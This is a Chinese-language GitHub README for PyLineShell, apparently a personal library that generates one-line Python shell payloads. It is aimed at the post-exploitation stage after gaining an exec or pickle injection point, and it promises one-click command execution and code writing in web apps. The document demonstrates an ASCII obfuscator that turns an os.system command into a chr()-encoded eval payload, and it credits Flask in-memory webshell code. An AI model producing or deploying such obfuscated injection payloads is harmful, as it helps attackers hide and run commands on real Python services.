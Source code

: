 ### [繁体中文](README_ch.md)

<div align="center"> <img src="bugctf.png" width = 135 height = 99 /></div>
<p align="center">PyLineShell: 一个基于Python3的个人Shell Payload库</p>


PyLineShell是一个基于Python3的个人Shell Payload库，适用于在Python项目拿到exec、pickle命令执行点后的渗透阶段. 用户可以调用Python文件来生成需要的Payload.

🔍生成的Payload基本上为简单的一行长代码，主要针对于无法赋值、无法多行输入的命令执行点. 

💡对于绝大部分应用(Web应用、框架)，都可以一键命令执行和一键写入代码

这是我自己的一个练手项目，希望大佬多多包涵. 可以提issue反馈问题

# 快速开始

使用Python生成一个普通版执行命令的Payload

<iframe width="100%" height="400" src="https://github.com/Leeyangee/PyLineShell/raw/main/%E6%BC%94%E7%A4%BA%E8%A7%86%E9%A2%91.mp4" frameborder="0" allowfullscreen></iframe>

使用Python ASCII码代码混淆器

```cmd
PS C:\PyLineShell\工具> python .\ASCII码代码混淆器.py
请输入要混淆的代码: __import__('os').system('calc')
请输入混淆次数(默认为1): 1
eval(eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(99)+chr(97)+chr(108)+chr(99)+chr(39)+chr(41)))
```

# 鸣谢

在开发的过程中，少不了以下开源/开放代码的支持

* bfengj的Flask内存马代码: https://blog.csdn.net/rfrder/article/details/121005608

<div align="center"> <img src="bugctf.png" width = 135 height = 99 /></div>